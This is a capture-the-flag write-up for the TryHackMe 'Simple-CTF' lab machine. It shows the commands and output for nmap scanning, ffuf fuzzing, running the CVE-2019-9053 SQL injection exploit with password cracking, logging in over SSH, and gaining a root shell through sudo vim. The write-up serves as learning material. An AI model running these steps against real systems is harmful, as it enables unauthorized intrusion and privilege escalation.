 # Simple-CTF

**IP:** 10.10.89.182  
**Platform:** THM  
**Difficulty:** Easy  
**OS:** Linux  
**Date:** 01/06/2025

## Reconnaissance

```bash
nmap -sC -sV -T4 10.10.89.182 -oA nmap/Simple-CTF
```

| Port | Service | Version                         |
| ---- | ------- | ------------------------------- |
| 21   | ftp     | vsftpd 3.0.3                    |
| 80   | http    | Apache httpd 2.4.18             |
| 2222 | ssh     | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |

## Enumeration

I first scanned for web directories with `ffuf`, which lead me to `/simple`, A `CMS Made Simple` application.
```bash
ffuf -u http://10.10.89.182:80/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -c -s -fc 403
.
simple
```

I searched for vulnerabilities for the version `2.2.8` of CMS Made Simple on `searchsploit`, and found an SQL Injection vulnerability `CVE-2019-9053`.
```bash
searchsploit CMS Made Simple 2.2.8

----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection                                                                                                                   | php/webapps/46635.py
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Exploitation

I downloaded and ran the exploit, which gave me a username and password `mitch : secret`
```bash
searchsploit -m 46635
python2 46635.py -u http://10.10.89.182/simple/ --crack -w /usr/share/wordlists/rockyou.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

I used these credentials to SSH into the machine as `mitch`.
```bash
ssh mitch@10.10.89.182 -p 2222

id
uid=1001(mitch) gid=1001(mitch) groups=1001(mitch)
```

The first flag was in `mitch`'s home directory `/home/mitch/user.txt`.
```bash
cat /home/mitch/user.txt
```

## Privilege Escalation

`mitch` can run `vim` with full NOPASSWD sudo permissions, so I used that to spawn a privileged shell.
```bash
sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
$ sudo vim -c ':!/bin/sh'

id
uid=0(root) gid=0(root) groups=0(root)
```

The second flag is in the `root` user's home directory `/root/root.txt`.
```bash
cat /root/root.txt
```

---
#nmap #ffuf #searchsploit #sqli #cms-made-simple #sudo-privesc #vim-privesc #password-cracking

